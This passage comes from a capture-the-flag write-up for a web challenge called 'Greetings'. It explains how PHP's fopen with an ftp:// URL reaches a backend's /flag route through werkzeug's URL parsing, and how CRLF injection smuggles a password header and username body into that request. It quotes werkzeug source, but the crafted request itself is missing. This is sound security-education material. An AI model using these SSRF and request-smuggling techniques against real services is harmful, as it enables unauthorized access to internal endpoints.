/flag on the backend server. Why is this the case? Well, after a bit of WSGI investigations, we can see that werkzeug will only parse out the path. This is because werkzeug will use urllib.parse.urlsplit to parse out the different parts of the HTTP route. When ftp://127.0.0.1:3000/flag is passed into urlsplit, the object returned will set the scheme, net_loc, and path to ftp, 127.0.0.1:3000, and /flag respectively. And this will cause the later check to set the HTTP request path directly to the path it sees (in this case /flag).
def make_environ(self) -> WSGIEnvironment:
request_url = urlsplit(self.path)
url_scheme = "http" if self.server.ssl_context is None else "https"
if not self.client_address:
self.client_address = ("<local>", 0)
elif isinstance(self.client_address, str):
self.client_address = (self.client_address, 0)
# If there was no scheme but the path started with two slashes,
# the first segment may have been incorrectly parsed as the
# netloc, prepend it to the path again.
if not request_url.scheme and request_url.netloc:
path_info = f"/{request_url.netloc}{request_url.path}"
else:
path_info = request_url.path
path_info = unquote(path_info)

Okay so that explains why this works, but how can satisfy the requests to get the flag? We need to pass in a


Password via a header and username via a request body. The way I went about this is via CRLF injection to alter the HTTP request to include both of these. Essentially, since we know the entire raw request is sent over, we can arbitrarily alter the current HTTP request by adding spaces and CRLF to inject our own headers and body. First, we preserve the path by adding a url parameter to the end of /flag. Then we can finish the HTTP request by adding the version, headers, and body separated by CRLFs and spaces where appropriate. So our request should look like the following:
And there is the solve! If you're wondering why fopen allows us to pass in arbitrary CRLFs into the request, then you would be rightfully concerned. Post competition, one of the other competitors linked this post where the PHP devs claimed it was not their issue to fix. Just another reason to not pass untrusted user input to
fopen.
Final Thoughts on Greetings
This challenge was a lot of fun! I went down a couple rabbit holes but I definitely learned a ton in the process, plus I'll always enjoy challenges where you mess around with CLRF injection and request smuggling. Thank you to the author for the great challenge!